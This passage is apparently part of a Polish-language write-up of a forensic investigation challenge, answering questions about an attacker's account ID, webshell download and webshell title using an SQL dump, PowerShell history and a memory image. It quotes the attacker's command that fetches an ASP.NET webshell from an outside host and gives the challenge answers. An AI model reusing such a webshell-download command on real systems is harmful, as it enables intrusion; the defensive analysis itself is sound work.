 **What is the inst ID of the attacker?**

Jednym z plików, które otrzymaliśmy jest zestaw instrukcji SQL. Uruchomimy lokalny serwer SQL i sprawdzimy zawartość.



![creating_schema](/images/creating_schema.png)

![data_import](/images/data_import.png)

![importing_data](/images/importing_data.png)

Sprawdzimy tabelę "log"

![new_tables](/images/new_tables.png)
![inst_id](/images/inst_id.png)

Widzimy utworzone konta gościa oraz adres IP atakującego. 

**Odpowiedź: 1234**

![iliketo_q_11](/images/iliketo_q_11.png)

## Pytanie 12

**What command was run by the attacker to retrieve the webshell?**

Wróćmy do pliku ConsoleHost_history.txt - widzimy, że TA po uzyskaniu zdalnego dostępu wykonał polecenie wget, aby dostać się do webshella.

![webshell_name](/images/webshell_name.png)

**Odpowiedź: `wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx`**

![iliketo_q_12](/images/iliketo_q_12.png)

## Pytanie 13

**What was the string within the title header of the webshell deployed by the TA?**

Przeszukajmy dump pamięci RAM .vmem. Niestety nie mamy pliku .vmss, a bez tego Volatility 3 nie zadziała. Zdecydowałem się więc na użycie strings.exe z pakietu Sysinternals Windowsa.

`.\strings.exe C:\Users\analyst\Desktop\iliketo\I-like-to-27a787c5.vmem | Select-String -Pattern "<title>" -Context 20,20`

Polecenie przeszuka linijki ze słowem kluczowym oraz 20 linijkami powyżej i poniżej, dla szerszego kontekstu. Po analizie po słowie "title" mamy odpowiedź.

![webshell_title](/images/webshell_title.png) 

**Odpowiedź: awen asp.net webshell**

![iliketo_q_13](/images/iliketo_q_13.png)
